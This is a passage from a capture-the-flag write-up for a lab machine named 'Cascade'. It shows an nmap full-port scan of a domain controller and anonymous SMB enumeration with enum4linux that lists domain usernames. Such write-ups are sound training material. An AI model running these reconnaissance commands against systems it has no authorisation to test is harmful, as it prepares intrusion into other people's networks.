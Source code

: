 # Cascade

## Gaining Access&#x20;

Nmap scan:

```
$ nmap -p- --min-rate 5000 -Pn 10.129.178.248
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 08:23 EDT
Nmap scan report for 10.129.178.248
Host is up (0.0083s latency).
Not shown: 65520 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
49154/tcp open  unknown
49155/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown
49165/tcp open  unknown
```

### SMB Null Shares

SMB enumeration gave me a load of usernames.&#x20;

```
$ enum4linux -u '' -p '' -a 10.129.178.248
user:[CascGuest] rid:[0x1f5]
user:[arksvc] rid:[0x452]
user:[s.smith] rid:[0x453]
user:[r.thompson] rid:[0x455]
user:[util] rid:[0x457]
user:[j.wakefield] rid:[0x45c]
user:[s.hickson] rid:[0x461]
user:[j.goodhand] rid:[0x462]
user:[a.turnbull] rid:[0x464]
user:[e.crowe] rid:[0x467]
user:[b.hanson] rid:[0x468]
user:[d.burman] rid:[0x469]
user:[BackupSvc] rid:[0x46a]
user:[j.allen] rid:[0x46e]
user:[i.croft] rid:[0x46f]
```

